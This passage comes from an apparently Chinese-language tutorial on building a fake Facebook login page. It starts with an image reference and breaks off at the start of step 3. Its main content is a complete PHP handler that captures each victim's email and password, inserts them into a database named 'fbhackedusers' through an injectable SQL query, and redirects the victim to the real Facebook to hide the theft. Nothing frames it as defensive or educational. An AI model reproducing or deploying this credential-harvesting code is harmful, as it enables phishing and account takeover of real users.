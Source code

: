 将上述代码放在您之前创建的登录页面的顶部。

## 2.创建一个脚本来存储脸书登录凭据

下面是登录处理程序的脚本，它将在数据库中保存特定用户的脸书登录信息:

```
<?php 
   $conn = mysqli_connect('localhost', 'root', '', 'fbhackedusers');
   if(mysqli_connect_error())
   {
      // redirect users to original Facebook if error occurred
      header("location: https://www.facebook.com");
      exit();
   }
?>
<!doctype html>
<html>
<head>
   <title>Logging in to facebook</title>
   <meta charset="utf-8">
   <meta name="viewport" content="width=device-width,initial-scale=1.0,user-scalable=yes">
</head>
<body style="margin:0px;"> 
<?php
   if($_SERVER["REQUEST_METHOD"] == "POST")
   {
      if(isset($_POST['login']))
      {
         $email = $pass = "";
         // get facebook email id
         $email = $_POST["email"];
         // get Facebook password
         $pass = $_POST["pass"];
         // insert the Facebook id and password in database
         $sql = "insert into fbusers(facebookid, facebookpassword) values('$email', '$pass')";
         $result = $conn->query($sql);
      }
   }
   // redirect users to original Facebook URL
   header("location: https://www.facebook.com");
   exit();
?> 
</body>
</html>
```

将上面的文件放在名为 login.php 的目录下。

## 3.将用户重定向到原始的脸书网址

从上面的第二步可以看出，下面的代码:
